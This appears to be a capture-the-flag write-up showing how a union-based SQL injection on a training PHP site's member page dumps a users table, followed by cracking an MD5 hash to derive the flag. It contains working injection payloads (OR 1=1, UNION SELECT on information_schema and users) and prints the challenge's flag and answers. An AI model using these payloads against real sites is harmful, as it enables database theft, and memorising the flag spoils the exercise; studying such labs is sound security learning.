 # UNION BASED SQL INJECTION

## Flag
```
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

## Discovery
go to
```
 http://{IP_ADDRESS}/index.php?page=member
```

tryed a simple sql statement 
```
1 OR 1=1 
The SQL above is valid and will return ALL rows from the "users" table, since OR 1=1 is always TRUE.
```

Retrieve columns names with the table they belong to:
```
1 UNION SELECT table_name,column_name FROM information_schema.COLUMNS 
```
> user_id, first_name, last_name, town, country, planet, commentaire, countersign

the command below will retrieve all image's data
```
1 AND 1=2 UNION SELECT user_id, CONCAT(first_name, last_name, town, country, planet, commentaire, countersign) FROM users
```

the result shows this interesting user with name (flag):

The table below show the result 

| user_id | first_name | last_name | town | country | planet | commentaire                                                                       | countersign 						|
| ------- | ---------- | --------- | ---- | ------- | ------ | --------------------------------------------------------------------------------- | ----------- 						|
|   5     | flag       | GetThe    |  42  |    42   |   42   | Decrypt this password -> then lower all the char. Sh256 on it and it's go    od ! | 5ff9d0165b4f92b14994e5c685cdce28 |

following the instruction :
* analyzing the password using [cipher identifier](https://www.dcode.fr/cipher-identifier)
* decrypt the password using [md5decrypt - md5](https://md5decrypt.net/en/)
* 5ff9d0165b4f92b14994e5c685cdce28 gives FortyTwo 
* lower all the char, encrypt it using Sh256
* flag is 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

## Helpers:
- [retrieve data from db](https://www.sqlinjection.net/table-names/)
- [dcode - cipher identifier](https://www.dcode.fr/cipher-identifier)
- [md5decrypt - md5](https://md5decrypt.net/en/)
